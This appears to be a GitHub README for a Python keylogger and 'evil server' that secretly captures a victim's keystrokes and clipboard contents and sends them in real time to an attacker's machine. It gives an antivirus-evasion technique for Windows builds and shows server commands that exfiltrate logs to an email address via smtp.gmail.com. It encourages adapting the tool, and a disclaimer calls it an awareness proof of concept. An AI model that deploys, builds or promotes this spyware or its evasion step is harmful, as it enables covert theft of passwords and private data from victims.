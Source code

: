 <div align="center">

![272844130-8c3b2b16-ae6d-467b-82a3-0e8c0b89c46a-removebg-preview](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/312b2d20-ecb1-42b9-9d54-2382833a7735)

<img src="https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/8f263795-f5f4-418f-a918-d4dea0c992cd" height=275 align=left>
<img src="https://img.shields.io/badge/Language%20-Python3-green.svg">
<img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg">
<img src="https://img.shields.io/badge/Type%20-Script-violet.svg"">
<img src="https://img.shields.io/badge/OS%20-Windows, Linux-red.svg"">
<img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square">
</div>

# Evil keylogger server (Covert Channel)

* ***Feel free to modify it as you see fit and it can be improved in many ways to suit your needs.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

It has been carefully designed to present the keyboard logs in the most user-friendly way possible.
****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![Peek 12-01-2024 00-33](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/6d4b9199-5b1a-41ac-a82c-cf6d8b7bcd31)

#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![Peek 12-01-2024 00-34](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/b4470ef2-1f89-4823-b7d2-aa012f3a698c)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
